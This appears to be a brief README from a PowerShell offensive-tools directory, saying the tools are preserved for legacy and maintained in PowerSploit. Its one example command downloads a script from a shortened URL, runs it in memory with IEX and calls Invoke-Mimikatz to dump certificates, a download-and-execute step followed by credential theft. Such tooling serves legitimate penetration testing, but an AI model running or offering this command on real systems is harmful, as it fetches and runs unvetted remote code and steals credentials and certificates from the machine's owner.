 The tools in this directory are part of PowerSploit and are being maintained there. They are preserved here for legacy, but any bug fixes should be checked in to PowerSploit.

D:\Users\flilja>powershell "IEX (New-Object Net.WebClient).DownloadString('https://git.io/vHHOS'); Invoke-Mimikatz -DumpCerts"

https://github.com/mattifestation/PowerSploit
